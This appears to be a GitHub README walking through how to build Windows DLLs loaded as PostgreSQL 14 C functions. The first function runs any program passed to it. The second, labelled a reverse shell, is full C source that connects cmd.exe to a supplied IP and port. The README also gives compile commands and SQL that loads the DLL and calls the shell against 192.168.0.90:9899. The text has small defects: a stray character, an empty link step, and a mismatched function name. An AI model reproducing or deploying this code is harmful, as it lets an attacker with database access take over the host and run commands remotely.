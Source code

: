 ## Creating UDF (User Defined Function) on Postgresql 14 x64 

- Install Postgresql for Windows
- Install Visual Studio and Visual Studio Code
- Install the Desktop development with C++ workload

![](2022-04-30-11-51-58.png)

- Windons -> Development 

![](2022-04-30-11-56-20.png)

- Validate

![](2022-04-30-11-56-53.png)

- Create a folder poc_dll

- Create a file poc_x64.c

Template

```C
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "shell32.lib")


PG_MODULE_MAGIC;

PGDLLEXPORT Datum poc(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(poc);

Datum
poc(PG_FUNCTION_ARGS)
{
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    int32  instances = PG_GETARG_INT32(1);
 
    for (int c = 0; c < instances; c++) {
        /*launch the process passed in the first parameter*/
        ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
    }
    PG_RETURN_VOID();
}
s
```
- Open a cmd.exe and run follow commands

```

cd "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\"
%comspec% /k "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
```

![](2022-04-30-19-10-40.png)

- Goto src directory

- Compile

```

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29910\bin\HostX86\x64\CL.exe" /c /I"C:\Program Files\PostgreSQL\14\include\server\port\win32" /I"C:\Program Files\PostgreSQL\14\include" /I"C:\Program Files\PostgreSQL\14\include\server" /Zi /nologo /W3 /WX- /diagnostics:column /sdl /O2 /Oi /GL /D WIN32 /Gm- /MD /GS /Gy /fp:precise /permissive- /Zc:wchar_t /Zc:forScope /Zc:inline /Fo"poc_x64" /Fd"poc_x64.pdb" /Gd /TC /FC /errorReport:prompt poc_x64.c
```


- Link

```

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29910\bin\HostX86\x64\link.exe" /ERRORREPORT:PROMPT /OUT:"poc_x64.dll" /INCREMENTAL:NO /NOLOGO /LIBPATH:"C:\Program Files\PostgreSQL\14\lib" postgres.lib /MANIFEST:NO /DEBUG /PDB:"poc_x64.pdb" /SUBSYSTEM:CONSOLE /OPT:REF /OPT:ICF /LTCG:incremental /LTCGOUT:"poc_x64.iobj" /TLBID:1 /DYNAMICBASE /NXCOMPAT /IMPLIB:"poc_x64.lib" /MACHINE:X64 /DLL poc_x64.obj
```

- Load Function at Postgresql, connect to psql and run

```

create or replace function poc(text, integer) returns void as $$c:\poc_x64.dll$$,$$poc$$ language c strict;
CREATE FUNCTION
select poc($$notepad.exe$$,5);
 poc
-----

(1 row)


postgres=#

```
![](2022-04-30-19-18-09.png)

![](2022-04-30-19-18-37.png)



## UDF Reverse SHELL on Windows

rev_shell_64.c

```c

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include "utils/builtins.h"
#include <winsock2.h>
 
#pragma comment(lib,"ws2_32")
 
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif


#define _WINSOCK_DEPRECATED_NO_WARNINGS
 

 
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum rev_shell(PG_FUNCTION_ARGS);
 
PG_FUNCTION_INFO_V1(rev_shell);
 
Datum rev_shell(PG_FUNCTION_ARGS)
{
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
    

    
    WSADATA wsaData;
    SOCKET wsock;
    struct sockaddr_in server;
    char ip_addr[16];
    STARTUPINFOA startupinfo;
    PROCESS_INFORMATION processinfo;
 
    char *program = "cmd.exe";
    const char *ip = GET_STR(PG_GETARG_TEXT_PP(0));
    int32  port_int32 = PG_GETARG_INT32(1);
    
    u_short port = port_int32;
    
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    wsock = WSASocket(AF_INET, SOCK_STREAM,
                      IPPROTO_TCP, NULL, 0, 0);
 
    struct hostent *host;
    host = gethostbyname(ip);
    strcpy_s(ip_addr, sizeof(ip_addr),
             inet_ntoa(*((struct in_addr *)host->h_addr)));
 
    server.sin_family = AF_INET;
    server.sin_port = htons(port);
    server.sin_addr.s_addr = inet_addr(ip_addr);
 
    WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
              NULL, NULL, NULL, NULL);
 
    memset(&startupinfo, 0, sizeof(startupinfo));
    startupinfo.cb = sizeof(startupinfo);
    startupinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    startupinfo.hStdInput = startupinfo.hStdOutput =
                            startupinfo.hStdError = (HANDLE)wsock;
 
    CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
                  NULL, NULL, &startupinfo, &processinfo);

                
    PG_RETURN_VOID();
}
```


- Compile

```

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29910\bin\HostX86\x64\CL.exe" /c /I"C:\Program Files\PostgreSQL\14\include\server\port\win32" /I"C:\Program Files\PostgreSQL\14\include" /I"C:\Program Files\PostgreSQL\14\include\server" /Zi /nologo /W3 /WX- /diagnostics:column /sdl /O2 /Oi /GL /D WIN32 /Gm- /MD /GS /Gy /fp:precise /permissive- /Zc:wchar_t /Zc:forScope /Zc:inline /Fo"rev_shell_64" /Fd"rev_shell_64.pdb" /Gd /TC /FC /errorReport:prompt rev_shell_64.c
```


- Link

```


```

- Load Function at Postgresql, connect to psql and run

```

CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS 'c:\rev_shell_64.dll', 'rev_shell' LANGUAGE C STRICT;
select rev_shell($$192.168.0.90$$,9899);
-----

![](2022-04-30-21-34-11.png)

![](2022-04-30-21-35-09.png)
